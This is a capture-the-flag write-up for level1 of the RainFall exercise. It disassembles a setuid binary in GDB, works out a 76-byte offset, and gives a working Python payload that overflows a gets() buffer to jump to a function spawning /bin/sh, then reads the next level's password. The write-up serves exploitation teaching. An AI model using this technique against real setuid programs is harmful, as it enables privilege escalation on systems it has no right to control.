 # Level1

## Walkthrough

We list the files in the current home directory.

```bash
level1@RainFall:~$ ls -la
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
```

The file is owned by **level2** and has the **setuid** bit.

We list the functions inside the executable and analyze their assembly code with **GDB**.

```
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

There are 2 interesting functions: `main()` and `run()`.

```
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:     push   ebp
   0x08048481 <+1>:     mov    ebp,esp
   0x08048483 <+3>:     and    esp,0xfffffff0
   0x08048486 <+6>:     sub    esp,0x50
   0x08048489 <+9>:     lea    eax,[esp+0x10]
   0x0804848d <+13>:    mov    DWORD PTR [esp],eax
   0x08048490 <+16>:    call   0x8048340 <gets@plt>
   0x08048495 <+21>:    leave
   0x08048496 <+22>:    ret
End of assembler dump.
```

The `main()` function:
- decrements the stack pointer by `0x50` bytes
- performs a bitwise `AND` operation on `esp` ([detailled explanation](#calculation-of-esp-after-and-instruction)) to decrement the stack pointer by 8 bytes
- sets the start of a buffer to `esp + 0x10` passed as a first argument to `gets()`
- calls `gets()` before returning

But `run()` is never called.

```
(gdb) disas run
Dump of assembler code for function run:
   0x08048444 <+0>:     push   ebp
   0x08048445 <+1>:     mov    ebp,esp
   0x08048447 <+3>:     sub    esp,0x18
   0x0804844a <+6>:     mov    eax,ds:0x80497c0
   0x0804844f <+11>:    mov    edx,eax
   0x08048451 <+13>:    mov    eax,0x8048570
   0x08048456 <+18>:    mov    DWORD PTR [esp+0xc],edx
   0x0804845a <+22>:    mov    DWORD PTR [esp+0x8],0x13
   0x08048462 <+30>:    mov    DWORD PTR [esp+0x4],0x1
   0x0804846a <+38>:    mov    DWORD PTR [esp],eax
   0x0804846d <+41>:    call   0x8048350 <fwrite@plt>
   0x08048472 <+46>:    mov    DWORD PTR [esp],0x8048584
   0x08048479 <+53>:    call   0x8048360 <system@plt>
   0x0804847e <+58>:    leave
   0x0804847f <+59>:    ret
End of assembler dump.
(gdb) x/s 0x8048584
0x8048584:	 "/bin/sh"
```

The `run()` function:
- writes a message
- calls `system()`, passing the data at `0x8048584` as first argument. The address contains the `/bin/sh` string.

With these information in mind, we know that we have to exploit the executable with a **buffer overflow**, overriding the `eip` register at the end of `main()` with the address of `run()`. A buffer of 72 bytes is passed to `gets()` without any validation, allowing us to write more than 64 characters in it.

In order to simplify the calculation of the required number of characters to input, we draw a diagram of the stack.

![Stack diagram](./resources/level1_stack-diagram.png)

92 - 16 = 76 bytes.

We run a **Python** script onto the command line to print 76 characters and append them with 4 bytes representing the address of `run()`.  
Because our system is **little-endian**, we have to pass the address from the least-significant byte to the most-significant one: `0x08048444` becomes `0x44840408`.

```bash
level1@RainFall:~$ python -c "print('a' * 76 + '\x44\x84\x04\x08')" | ./level1
Good... Wait what?
Segmentation fault (core dumped)
```

Our script is working because the message of `run()` is printed on stdout, but the shell process is instantly closed.  
After some researches, we find a solution using the `cat` command.

```bash
level1@RainFall:~$ (python -c "print('a' * 76 + '\x44\x84\x04\x08')"; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

## Additional information

### Calculation of `esp` after `AND` instruction

We set a breakpoint at the `0x08048483 <+3>: and esp,0xfffffff0` instruction to display the content of the `esp` register.

```
(gdb) break *0x08048483
Breakpoint 1 at 0x8048483
(gdb) r
Starting program: /home/user/level1/level1 

Breakpoint 1, 0x08048483 in main ()
(gdb) info registers
eax            0x1	1
ecx            0xbffff6e4	-1073744156
edx            0xbffff674	-1073744268
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff648	0xbffff648
ebp            0xbffff648	0xbffff648
esi            0x0	0
edi            0x0	0
eip            0x8048483	0x8048483 <main+3>
eflags         0x200246	[ PF ZF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

`esp` is currently holding the address `0xbffff648`.  
We execute the next instruction with `stepi` and check the new address held by `esp`.

```
(gdb) stepi
0x08048486 in main ()
(gdb) info registers
eax            0x1	1
ecx            0xbffff6e4	-1073744156
edx            0xbffff674	-1073744268
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff640	0xbffff640
ebp            0xbffff648	0xbffff648
esi            0x0	0
edi            0x0	0
eip            0x8048486	0x8048486 <main+6>
eflags         0x200282	[ SF IF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

`esp` is now holding the address `0xbffff640`.

| Information | Hexadecimal | Binary |
| --- | --- | --- |
| Before `ADD` | 0xbffff648 | 10111111111111111111011001001000 |
| `AND` second operand | 0xfffffff0 | 11111111111111111111111111110000 |
| After `AND` | 0xbffff640 | 10111111111111111111011001000000 |

As a result of this `AND` instruction, the stack pointer has been decremented by 8 bytes.

## Resources

- [An Introduction to Buffer Overflow Vulnerability](https://freedium.cfd/https://medium.com/techloop/understanding-buffer-overflow-vulnerability-85ac22ec8cd3#:%7E:text=A%20Beginner%E2%80%99s%20Guide%20to%20Buffer%20Overflow%20Vulnerability%201,Overflow%20...%207%20Security%20Measures%20...%208%20References)
- [Running a Buffer Overflow Attack - Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo)
- [Buffer Overflows Part 1 - Jumping to Local Functions](https://www.youtube.com/watch?v=svgK9fNGTfg)
- [Why can't I open a shell from a pipelined process?](https://unix.stackexchange.com/questions/203012/why-cant-i-open-a-shell-from-a-pipelined-process)
